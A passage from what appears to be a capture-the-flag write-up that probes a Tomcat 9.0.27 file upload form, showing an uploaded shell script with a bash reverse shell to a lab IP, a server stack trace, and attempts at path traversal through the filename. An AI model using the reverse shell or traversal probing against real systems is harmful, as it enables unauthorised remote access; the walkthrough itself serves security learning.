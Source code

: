 ```
Content-Disposition: form-data; name="image"; filename="shell.sh"
Content-Type: application/x-shellscript

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.15/443 0>&1
-----------------------------196356314313815341281577268423--

```

Beside the content of the file, I control the email address (which is passed as a GET parameter even in this POST request) and the filename.

On sending the request to Burp Repeater, bad characters (like `"`) in the email address returns an HTTP 400 Bad Request. At the end of the HTML is this:

```

<pre>java.lang.IllegalArgumentException: Invalid character found in the request target. The valid characters are defined in RFC 7230 and RFC 3986
	org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:468)
	org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:292)
	org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
	org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:861)
	org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1579)
	org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
	java.base&#47;java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
	java.base&#47;java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
	org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
	java.base&#47;java.lang.Thread.run(Thread.java:834)
</pre>
<p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" />
<h3>Apache Tomcat/9.0.27</h3>
</body>
</html>

```

It the bottom matches the version `nmap` returned.

Another thing that was useful was submitting with an empty filename:

[![image-20200831220455176](https://0xdfimages.gitlab.io/img/image-20200831220455176.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200831220455176.png)

It looks like the server is taking that name and prepending `/opt/samples/uploads` to it to create a filename, and when it’s blank, it can’t write a file where the directory already exists, so it throws an error.

I tried seeing if I could write up a directory with `../test`, but it returned an error message, `Invalid filename!`, which suggests some kind of filtering is going on. Quick tests show a bad character list that includes `/`, `-`, `|`, and a bunch of other special characters.

### Tomcat Patch Logs
